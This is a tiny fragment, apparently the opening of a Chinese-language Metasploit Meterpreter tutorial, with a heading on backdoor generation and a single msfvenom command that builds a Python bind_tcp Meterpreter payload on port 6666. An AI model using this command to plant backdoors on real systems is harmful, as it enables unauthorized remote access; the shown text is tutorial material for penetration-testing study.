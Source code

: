 # Meterpreter of Metasploit教程

## 后门生成

```
msfvenom -p  python/meterpreter/bind_tcp lport=6666 -o /tmp/test
```
